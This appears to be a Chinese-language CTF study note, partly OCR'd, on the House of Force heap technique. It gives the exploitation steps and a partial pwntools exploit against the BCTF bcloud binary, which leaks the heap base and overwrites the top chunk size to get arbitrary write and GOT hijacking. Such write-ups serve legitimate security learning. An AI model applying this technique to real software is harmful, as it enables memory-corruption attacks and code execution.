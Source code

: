 ```
利用条件:
- 能够以溢出等方式修改top chunk的size域
- 自由控制堆分配的大小

步骤:
1. malloc(100)//随便分配一个chunk
2. 使用溢出修改top chunk的size为一个大数//不会去调用mmap
3. malloc(size)//size=目标地址减去 top chunk 地址，再减去 chunk 头的大小
4. p = malloc(100); p == 目标地址

摘自0x2l师傅的文章
```

## 题

### HITCON TRAININGLAB 11

略...
相关记录在2021-03-22的日报里

### BCTF-bcloud

搞了好久...现在是早上五点，不想写了
注释啥的都在exp和ida文件里
有两种方法，主要是把top_chunk指向bss段的content_ptr或content_len，由此可以在里边任意写，更改函数got表指向的内容。

画图和调试很重要！

```py
from pwn import *
#context.log_level = "debug"

p = process("./bcloud")
elf = ELF("./bcloud")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
def add (len, content):
	p.recv()
	p.sendline("1")
	p.sendlineafter("content:",str(len))
	p.sendlineafter("Input the content:\n",content)

def delete(id):
	p.recv()
	p.sendline("4")
	p.sendlineafter("Input the id:\n",str(id))

def edit(id,content):
	p.recv()
	p.sendline("3")
	p.sendlineafter("Input the id:",str(id))
	p.sendlineafter("Input the new content:",content)


p.sendafter("name:\n","a"*0x40)
first_heap = u32(p.recv()[68:4+68].ljust(4,"\x00"))-8 
print "heap_base: " + hex(first_heap)


p.send("A"*0x40)
p.sendlineafter("Host:\n",p32(0xffffffff))
topchunk_addr = first_heap + 0x48*3			#这里第一次时候因为看gdb显示每个chunk大小是0x49，就写了0x49*3，但其实那个size应该是包括了pre_use的，因此是0x48
print "topchunk_addr : " + hex(topchunk_addr)

```